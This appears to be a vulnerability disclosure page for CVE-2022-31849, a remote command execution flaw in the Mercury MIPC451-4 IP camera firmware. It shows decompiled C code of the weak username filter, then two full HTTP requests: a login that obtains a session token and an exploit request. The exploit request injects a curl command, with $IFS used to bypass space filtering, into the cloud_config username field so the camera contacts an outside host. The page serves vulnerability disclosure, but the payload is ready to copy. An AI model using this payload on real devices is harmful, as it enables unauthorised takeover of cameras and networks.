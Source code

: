 # MERCURY MIPC451-4 command_execution

**CVE ID**:  CVE-2022-31849

**Vender**: MERCURY

**Vendor Homepage**: https://www.mercurycom.com.cn/

**Affect products**: MIPC451-4

**Firmware version**: 1.0.22 Build 220105 Rel.55642n

**Hardware Link**: https://service.mercurycom.com.cn/download/202109/MIPC451-4%20V2.0%E5%8D%87%E7%BA%A7%E8%BD%AF%E4%BB%B620210414_1.0.6.zip

**Exploit Author**: [SkYe231@Hillstone](mailto:ext-lhliang@Hillstonenet.com)

## describe

The Mercury MIPC451-4 has remote command execution, and remote attackers can bypass restrictions through carefully constructed packets to achieve remote command execution.

## detail

Taking the mailbox name as the core filtering rule of username, the rules only filter the mailbox format (see the code comments for details), and do not filter special symbols, so there is a chance of injection.

> file:/usr/bin/dsd

```c
/* expect return value 1 */

int FUN_00024aa4(byte *param_1)

{
  size_t sVar1;
  char *pcVar2;
  int iVar3;
  
                    /* username is empty */
  if (param_1 == (byte *)0x0) {
    return 0;
  }
                    /* length is 0 */
  sVar1 = strlen((char *)param_1);
  if (sVar1 == 0) {
    return 0;
  }
                    /* Limit length<129 */
  if ((int)sVar1 < 129) {
                    /* matches @ */
    pcVar2 = strchr((char *)param_1,L'@');
                    /* no matches */
    if (pcVar2 == (char *)0x0) {
      return 0;
    }
                    /* Does it end with @ */
    if (param_1[sVar1 - 1] != 0x40) {
                    /* Does it start with @ */
      iVar3 = *param_1 - 0x40;
      if (iVar3 != 0) {
        iVar3 = 1;
      }
      return iVar3;
    }
  }
  return 0;
}
```

## EXP

1. Log in to the background to get **stok** (cookie)

    ```
    POST / HTTP/1.1
    Host: 192.168.0.103
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:100.0) Gecko/20100101 Firefox/100.0
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/json; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 73
    Origin: http://192.168.0.103
    Connection: close
    Referer: http://192.168.0.103/
    
    {"method":"do","login":{"username":"{your_name}","password":"{your_password}"}}
    ```

2. Trigger remote command execution

    > Command:`curl$IFS-o-$IFS'http://192.168.0.101:9999/skye231'`

    ```
    POST /stok=05173d0162e8c77387fa1bbc12b2fa62/ds HTTP/1.1
    Host: 192.168.0.103
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:100.0) Gecko/20100101 Firefox/100.0
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/json; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 147
    Origin: http://192.168.0.103
    Connection: close
    Referer: http://192.168.0.103/
    
    {"cloud_config":{"bind":{"username":"\"}';curl$IFS-o-$IFS'http://192.168.0.101:9999/skye231';'{\"@mrskye.com","password":"admin123"}},"method":"do"}
    ```